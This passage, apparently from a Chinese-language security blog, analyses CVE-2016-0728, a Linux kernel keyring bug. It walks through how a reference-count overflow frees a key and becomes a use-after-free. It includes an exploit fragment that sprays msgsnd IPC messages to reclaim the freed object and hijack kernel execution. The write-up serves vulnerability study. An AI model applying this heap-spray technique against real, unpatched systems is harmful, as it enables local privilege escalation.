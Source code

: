 ```
	        goto found_unreferenced_key;  //跳转到found_unreferenced_key
            
            //other code
            //...
            
found_unreferenced_key:
	    kdebug("unrefd key %d", key->serial);
	    rb_erase(&key->serial_node, &key_serial_tree);
	    spin_unlock(&key_serial_lock);
            
	    list_add_tail(&key->graveyard_link, &graveyard);//添加到链表
	    gc_state |= KEY_GC_REAP_AGAIN;
	    goto maybe_resched;                           //跳转到maybe_resched，进行释放
            
            //other code
            //...
            
maybe_resched:
            //other code
	    //...
	    if (!list_empty(&graveyard)) {
		kdebug("gc keys");
		key_gc_unused_keys(&graveyard);//内部调用kmem_cache_free()放回slab缓存
	    }
            
            return;  
        }
}
```

贴一段gdb中，usage上溢为0后，key_gc_unused_keys()释放key时的状态：

![图片6](turingsec.github.io/knowledge/posts/linux_eop_cve_2016_0728/图片6.png)

那么现在不就转化成了Use-After-Free了吗，从gdb和源码看struct key结构大小等于0xb8，如果现在申请一个大小0xb8的内核对象，并且内容可控的话，就有机会控制内核去执行用户态的一段shellcode了。

![图片7](turingsec.github.io/knowledge/posts/linux_eop_cve_2016_0728/图片7.png)

EXP中选择使用Linux IPC机制，发送消息msg来尝试占用原keyring对象的空间:

```
if ((msgid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT)) == -1)
{
    perror("[-] msgget");
    exit(1);
}

for (i = 0; i < 256; i++)
{
    if (msgsnd(msgid, &msgp, sizeof(msgp.mtext), 0) == -1)
    {
        perror("[-] msgsnd");
        exit(1);
    }
}
```


[jekyll-gh]: https://github.com/mojombo/jekyll
[jekyll]:    http://jekyllrb.com